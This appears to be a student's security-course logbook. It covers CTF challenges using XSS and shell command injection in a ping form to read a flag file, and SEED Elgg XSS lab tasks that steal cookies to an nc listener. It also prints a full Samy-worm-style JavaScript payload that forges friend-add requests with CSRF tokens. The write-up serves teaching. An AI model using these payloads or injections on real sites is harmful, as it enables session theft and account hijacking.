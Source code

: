 # Tasks for week \#9 and \#10

##CTF

- **Task 1**:
    - The purpose of this task is to catch the flag. Because the forms has a XSS vulnerability, we can inject JavaScript code that when the admin checks the page, clicks on the button and the flag appears.
![ctf1.1](docs/logbook10/ctf10_1.1.png)
![ctf1.2](docs/logbook10/ctf10_1.2.png)
![ctf1.3](docs/logbook10/ctf10_1.3.png)

- **Task 2**:
    - The functionalities that the web application provides are log in, ping a host and watch a gif on speed test. After somes tests we verified that the ping functionality uses the linux ping command. This way we can inject a shell comand to get the flag (cat /flags/flag.txt)
![ctf2.1](docs/logbook10/ctf10_2.1.png)
![ctf2.2](docs/logbook10/ctf10_2.2.png)
![ctf2.3](docs/logbook10/ctf10_2.3.png)


## Cross-Site Scripting (XSS) Attack Lab

- **Task 1**:
    - The purpose of this task is to embed a JavaScript program in an Elgg profile. In order to do this, we logged in as Bobby and injected the following Javascript program in the brief description field:  
![task1.1](docs/logbook10/foto1.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed.
![task1.2](docs/logbook10/foto2.png)

- **Task 2**:
    - The purpose of this task is similar to the previous one but the JavaScript code displays the user's cookie.
![task2.1](docs/logbook10/foto3.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed, showing Alice's cookie.
![task2.2](docs/logbook10/foto4.png)

- **Task 3**:
    - The purpose of this task is similar to the previous one but this time we want the cookie to be sent to the attacker. To achieve this, we injected the following JavaScript code that sents an HTTP GET request through an image's source field.
![task3.1](docs/logbook10/foto5.png)

    - The attacker uses the nc command to listen on port 5555 and receive the HTTP request with the Alice's cookie.
![task3.2](docs/logbook10/foto6.png)

- **Task 4**:
    - The purpose of this task is to perform an similar attack to what Samy did to MySpace in 2005. Using Firefox's HTTP inspection tool, we get the following HTTP request when Bobby adds Samy as a friend:
![task4.1](docs/logbook10/foto7.png)

    - Using the same technique used in the previous tasks, we can inject the following JavaScript program in samy's profile:

    ``` 
        <script type="text/javascript">
            window.onload = function () {
            var Ajax=null;
            var ts="&elgg_ts="+elgg.security.token.elgg_ts;
            var token="&elgg_token="+elgg.security.token.elgg_token;
            //Construct the HTTP request to add Samy as a friend.
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script> 
    ```

    - This code creates an HTTP request that adds the current user to Samy's friend list.

    Example:
    - Alice's friend list before visiting Samy's profile:
![task4.2](docs/logbook10/foto8.png)

    - Alice visits Samy's profile and the HTTP request is executed.
![task4.3](docs/logbook10/foto9.png)

    - Alice's friend list after visiting Samy's profile:
![task4.4](docs/logbook10/foto10.png)
